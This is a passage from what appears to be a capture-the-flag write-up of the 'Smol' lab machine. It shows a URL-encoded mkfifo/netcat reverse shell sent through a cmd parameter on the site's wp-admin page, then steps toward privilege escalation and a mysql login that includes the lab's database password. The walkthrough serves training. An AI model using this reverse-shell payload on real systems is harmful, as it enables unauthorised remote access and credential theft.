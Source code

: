 So, we could send a decoded reverse shell in the following way, we would need to visit this URL:

`http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20IP%20PORT%20%3E%2Ftmp%2Ff`

![Pasted image 20250127161756.png](../../IMAGES/Pasted%20image%2020250127161756.png)

As we can see, we got a shell, let's make it [stable](../../Commands/Shell%20Tricks/STABLE%20SHELL.md)
![Pasted image 20250127161921.png](../../IMAGES/Pasted%20image%2020250127161921.png)

Nice, now we can begin with privilege escalation.


# PRIVILEGE ESCALATION
---

We already got ourselves a shell, let's list up users:

![Pasted image 20250127161957.png](../../IMAGES/Pasted%20image%2020250127161957.png)

We got four users, since we already got credentials for the SQL database, let's check if there's credentials for some other user:


`mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G' -D wordpress`:
